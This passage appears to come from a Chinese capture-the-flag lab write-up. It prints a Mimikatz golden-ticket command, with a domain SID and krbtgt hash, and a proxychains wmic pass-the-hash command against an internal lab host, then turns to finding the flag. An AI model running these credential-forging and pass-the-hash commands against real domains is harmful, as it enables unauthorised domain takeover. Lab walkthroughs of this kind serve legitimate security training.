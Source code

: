 ```
导入
kiwi_cmd kerberos::golden /user:administrator /domain:xiaorang.lab /sid:S-1-5-21-314492864-3856862959-4045974917-502 /krbtgt:fb812eea13a18b7fcdb8e6d67ddc205b /ptt
```

wmic哈希传递（这里的10cf89a850fb1cdbe6bb432b859164c8是猕猴桃抓到的）

```
proxychains wmic -hashes :10cf89a850fb1cdbe6bb432b859164c8 xiaorang/administrator@172.22.1.2 
```

![image-20230802115646022](img/春秋云镜-Initial/image-20230802115646022.png)

找flag
